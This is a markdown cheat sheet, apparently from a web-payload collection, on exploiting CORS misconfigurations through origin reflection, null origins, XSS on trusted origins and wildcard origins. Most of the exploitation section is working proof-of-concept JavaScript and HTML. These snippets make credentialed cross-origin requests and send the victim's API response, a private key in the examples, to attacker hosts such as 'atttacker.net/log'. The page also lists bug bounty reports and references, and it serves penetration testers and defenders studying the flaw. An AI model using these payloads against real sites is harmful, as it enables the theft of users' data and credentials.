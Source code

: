 # CORS Misconfiguration

> A site-wide CORS misconfiguration was in place for an API domain. This allowed an attacker to make cross origin requests on behalf of the user as the application did not whitelist the Origin header and had Access-Control-Allow-Credentials: true meaning we could make requests from our attacker’s site using the victim’s credentials. 

## Summary

* [Tools](#tools)
* [Prerequisites](#prerequisites)
* [Exploitation](#exploitation)
* [References](#references)

## Tools

* [Corsy - CORS Misconfiguration Scanner](https://github.com/s0md3v/Corsy/)
* [PostMessage POC Builder - @honoki](https://tools.honoki.net/postmessage.html)

## Prerequisites

* BURP HEADER> `Origin: https://evil.com`
* VICTIM HEADER> `Access-Control-Allow-Credential: true`
* VICTIM HEADER> `Access-Control-Allow-Origin: https://evil.com` OR `Access-Control-Allow-Origin: null`

## Exploitation

Usually you want to target an API endpoint. Use the following payload to exploit a CORS misconfiguration on target **https://victim.example.com/endpoint**.

### Vulnerable Example: Origin Reflection

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

or 

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

### Vulnerable Example: Null Origin

#### Vulnerable Implementation

It's possible that the server does not reflect the complete `Origin` header but
that the `null` origin is allowed. This would look like this in the server's
response:

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept

This can be exploited by putting the attack code into an iframe using the data
URI scheme. If the data URI scheme is used, the browser will use the `null`
origin in the request:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest ();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### Vulnerable Example: XSS on Trusted Origin

If the application does implement a strict whitelist of allowed origins, the
exploit codes from above do not work. But if you have an XSS on a trusted
origin, you can inject the exploit coded from above in order to exploit CORS
again.

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

### Vulnerable Example: Wildcard Origin `*` without Credentials

If the server responds with a wildcard origin `*`, the browser does never send
the cookies. However, if the server does not require authentication, it's still
possible to access the data on the server. This can happen on internal servers
that are not accessible from the Internet. The attacker's website can then
pivot into the internal network and access the server's data withotu
authentication.

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### Proof of concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

## Bug Bounty reports

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

## References

* [Think Outside the Scope: Advanced CORS Exploitation Techniques - @Sandh0t - May 14 2019](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
* [Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle | 14 October 2016](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - DECEMBER 16, 2016](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018](https://www.corben.io/advanced-cors-techniques/)
* [PortSwigger Web Security Academy: CORS](https://portswigger.net/web-security/cors)
